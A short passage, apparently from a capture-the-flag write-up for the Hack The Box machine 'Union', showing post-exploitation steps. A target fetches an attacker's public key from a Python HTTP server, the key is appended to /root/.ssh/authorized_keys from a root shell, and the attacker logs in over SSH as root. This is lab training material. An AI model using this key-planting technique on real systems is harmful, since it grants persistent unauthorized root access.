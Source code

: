 ```bash
$ python3 -m http.server 9090
Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
10.10.11.128 - - [18/May/2024 17:27:33] "GET /kali-rsa.pub HTTP/1.1" 200 -
10.10.11.128 - - [18/May/2024 17:28:33] "GET /kali-rsa.pub HTTP/1.1" 200 -
```

```bash
root@union:~# cat kali-rsa.pub >> /root/.ssh/authorized_keys
cat kali-rsa.pub >> /root/.ssh/authorized_keys

root@union:~# cat /root/.ssh/authorized_keys
cat /root/.ssh/authorized_keys
ssh-ed25519 AAAAC3N...1y9m kali@kali
```

```bash
$ ssh -i ~/.ssh/kali-rsa root@$TARGET
Enter passphrase for key '/home/kali/.ssh/kali-rsa': 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-77-generic x86_64)
...
root@union:~# id
uid=0(root) gid=0(root) groups=0(root)
```

## Link

- [0xdf - htb-union](https://0xdf.gitlab.io/2021/11/22/htb-union.html)
